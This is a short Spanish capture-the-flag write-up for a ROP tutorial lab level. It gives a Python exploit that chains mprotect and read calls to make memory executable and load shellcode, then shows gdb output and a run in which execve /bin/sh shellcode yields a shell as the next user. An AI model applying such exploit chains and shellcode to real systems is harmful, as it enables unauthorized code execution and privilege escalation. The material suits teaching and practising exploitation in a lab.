 ```python
#!/bin/env python

import struct

def p(x):
    return struct.pack('<L', x)

#GADGETS
gad1 = 0x8048882

#VALORES
mprotect = 0x080523e0
bloquemem = 0x080ca000
sizemem = 0x1000
flagmem = 0x7
read = 0x80517f0

# empty payload
payload = ""

# padding
payload += "A" * 44
#payload += "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

# mark memory as rwx
payload += p(mprotect)
payload += p(gad1)
payload += p(bloquemem)    	# address
payload += p(0x1000)        # size
payload += p(0x7)           # PROT_READ| PROT_WRITE| PROT_EXEC

# read shellcode from stdin
payload += p(read)
payload += p(bloquemem)		# Aqui vuelve despues de llamar a read para ejecutar lo que haya
payload += p(0x0)           # fd = STDIN
payload += p(bloquemem)    	# buf
payload += p(0x100)         # nbyte

print payload
```
Si ejecutáis dentro de gdb, se puede ver como el bloque de memoria es ejecutable después de hacer la llamada a mprotect:
```
gdb-peda$ vmmap 
Start      End        Perm	Name
0x08048000 0x080ca000 r-xp	/root/Documents/Seccon/ropvulnhub/level0/level0
0x080ca000 0x080cb000 rwxp	/root/Documents/Seccon/ropvulnhub/level0/level0
```

Y aquí la ejecucción del exploit:

```
level0@rop:~$ (python ./bueno.py; python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'; cat) | ./level0
[+] ROP tutorial level0
[+] What's your name? [+] Bet you can't ROP me, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒▒!
xterm
/bin/sh: 1: xterm: not found
ls
bueno.py  file  flag  getenv  getenv.c  handle_amd  handle_amd.c  level0  mio.py  otro.py  peda-session-level0.txt  proccesor  proccesor.c
whoami
level1
```